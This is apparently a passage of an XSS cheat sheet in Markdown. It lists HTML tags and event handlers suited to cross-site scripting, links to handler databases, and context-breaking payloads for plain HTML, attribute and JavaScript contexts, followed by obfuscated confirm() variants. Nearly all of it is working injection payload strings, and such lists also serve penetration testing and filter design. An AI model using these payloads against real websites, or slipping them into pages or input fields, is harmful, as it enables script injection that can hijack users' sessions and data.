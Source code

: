 ```
```

### Awesome Tags & Event Handlers
- [105 Event Handlers with description](https://github.com/UltimateHackers/AwesomeXSS/blob/master/Database/event-handlers.md)
- [200 Event Handlers without description](http://pastebin.com/raw/WwcBmz5J)


Some HTML Tags that you will be using
```
img
svg
body
html
embed
script
object
details
isindex
iframe
audio
video
```

### Awesome Context Breaking

#### Simple Context
```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Attribute Context
```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
```
#### JavaScript Context
```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Awesome Confirm Variants
Yep, confirm because alert is too mainstream.
```
confirm()
confirm``
(((confirm)))``
new class extends confirm``{}
```
